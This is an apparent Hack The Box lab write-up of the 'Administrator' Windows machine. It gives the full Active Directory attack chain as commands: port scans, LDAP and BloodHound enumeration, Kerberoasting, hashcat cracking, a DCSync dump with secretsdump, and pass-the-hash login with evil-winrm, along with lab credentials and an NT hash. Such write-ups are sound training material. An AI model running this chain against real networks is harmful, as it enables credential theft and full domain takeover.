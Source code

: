 ![Administrator](https://labs.hackthebox.com/storage/avatars/9d232b1558b7543c7cb85f2774687363.png)

---

| **Created by** | **Page**     | **Difficulty** | **OS**  |
|-------------|--------------|----------------|---------|
| [nirza](https://app.hackthebox.com/users/800960)        | [Hack The Box](https://www.hackthebox.com/)     | Medium           | Windows   |

---









- I start with a scan of the open ports and I continue with a scan of the versions and technologies that are running on the open ports that we have found
	
	```python
	nmap -p- --open --min-rate 5000 -Pn sS 10.10.11.42 -oG scan
	nmap -p21,53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49667,49668,52151,56764,60584,60595,60600,60603,60623 -sCV -Pn 10.10.11.42 -oN ports
	```

	![image](https://github.com/user-attachments/assets/7fc4cccc-53ab-49d4-9668-96baf067d0ce)

- I'm trying to pull up something interesting that is shared by smb using the credentials provided by HTB but I can't find anything.
- enumerate the system with [ldapdomaindump](https://github.com/dirkjanm/ldapdomaindump) bloodhound to see if there are potential ways to escalate privileges.

	```python
	ldapdomaindump -u 'ADMINISTRATOR.HTB\olivia' -p 'ichliebedich' 10.10.11.42
	bloodhound-python -u 'olivia' -p 'ichliebedich' -ns 10.10.11.42 -d administrator.htb --zip
	```

- I list the users who have SPN set to request a TGS, I find the user ethan and get his hash

	![image](https://github.com/user-attachments/assets/15cd8b79-dac9-425f-8527-629b671ba28b)

	```python
	rdate -n 10.10.11.42; impacket-GetUserSPNs  administrator.htb/olivia:ichliebedich -request
	```

	![image](https://github.com/user-attachments/assets/0f4b516b-70b5-49f2-a884-8b8977b71ec0)

- I break in hash and get the clear text password from the user 

	```python
	hashcat -m 13100 -a 0 TgS_ethan /usr/share/wordlists/rockyou.txt -o cracked.txt
	```
	
	![image](https://github.com/user-attachments/assets/1a099d14-63af-4695-9855-b3faa856a900)

- Consulting bloodhound I see that I can obtain the user hashes by doing a DCSync attack.

	![image](https://github.com/user-attachments/assets/56da476a-9f9b-4704-9594-b75a04af0bd2)

	```python
	impacket-secretsdump administrator.htb/ethan@10.10.11.42
	```

	![image](https://github.com/user-attachments/assets/4ef86308-fadc-4823-b9d1-2d8b23cf904a)

- I get the nt hash from the admin user and connect with it to the system to be able to read the second flag.

	```python
	evil-winrm -u Administrator -H "3dc553ce4b9fd20bd016e098d2d2fd2e" -i 10.10.11.42
	```

	![image](https://github.com/user-attachments/assets/636f48b3-51e5-47f0-a538-720f19f1e3e2)
